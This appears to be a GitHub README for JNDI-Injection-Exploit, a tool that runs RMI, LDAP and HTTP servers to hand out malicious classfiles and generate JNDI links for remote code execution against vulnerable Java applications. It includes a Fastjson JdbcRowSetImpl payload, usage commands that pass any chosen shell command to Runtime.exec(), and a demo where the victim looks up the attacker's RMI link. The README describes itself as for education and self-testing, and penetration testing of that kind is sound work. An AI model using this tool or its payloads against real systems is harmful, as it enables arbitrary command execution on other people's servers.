 # JNDI-Injection-Exploit

[Materials about JNDI Injection](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)

[中文文档](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)

[相关文章](https://www.cnblogs.com/Welk1n/p/11066397.html)

## Description

JNDI-Injection-Exploit is a tool for generating workable JNDI links and provide background services by starting RMI server,LDAP server and HTTP server. RMI server and LDAP server are based on  [marshals](https://github.com/mbechler/marshalsec) and modified further to link with HTTP server. 

Using this tool allows you get JNDI links, you can insert these links into your **POC** to test vulnerability. 

For example, this is a Fastjson vul-poc:

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Object","autoCommit":true}
```

We can replace  "rmi://127.0.0.1:1099/Object" with the link generated by JNDI-Injection-Exploit to test vulnerability.

## Disclaimer

All information and code is provided solely for educational purposes and/or testing your own systems for these vulnerabilities.

## Usage

 Run as

```shell
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

where:

- **-C** - command executed in the remote classfile.

  (optional , default command is "open /Applications/Calculator.app")

- **-A** - the address of your server, maybe an IP address or a domain.

  (optional , default address is the first network interface address)

Points for attention:

- make sure your server's ports (**1099**, **1389**, **8180**) are available .

  or you can change the default port in the run.ServerStart class line 26~28.

- your command is passed to **Runtime.getRuntime().exec()** as parameters, 

  so you need to ensure your command is workable in method exec().
  
  **Command in bash like "bash -c ...." need to add Double quotes.**

## Examples

 Local demo:

1. Start the tool like this:

   ```shell
   $ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"
   ```

    Screenshot:

   ![image-20191018154346759](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/1.png)

2. Assume that we inject the JNDI links like rmi://ADDRESS/jfxllc generated in step 1 to a vulnerable application which can be attacked by JNDI injection.

   In this example, it looks like this:

   ```java
   public static void main(String[] args) throws Exception{
       InitialContext ctx = new InitialContext();
       ctx.lookup("rmi://127.0.0.1/fgf4fp");
   }
   ```

   then when we run this code, the command will be executed ,

   and the log will be printed in shell:

   ![image-20191018154515787](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/2.png)



## Installation

We can select one of the two methods to get the jar.

1. Download the latest jar from [Realease](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar).

2. Clone the source code to local and build (Requires Java 1.8+ and Maven 3.x+).

   ```shell
   $ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
   ```

   ```shell
   $ cd JNDI-Injection-Exploit
   ```

   ```shell
   $ mvn clean package -DskipTests
   ```

## To do

- (**Done**)Combine this project and [JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass) to generate workable links when **trustURLCodebase is false** in higher versions of JDK by default.
- … ...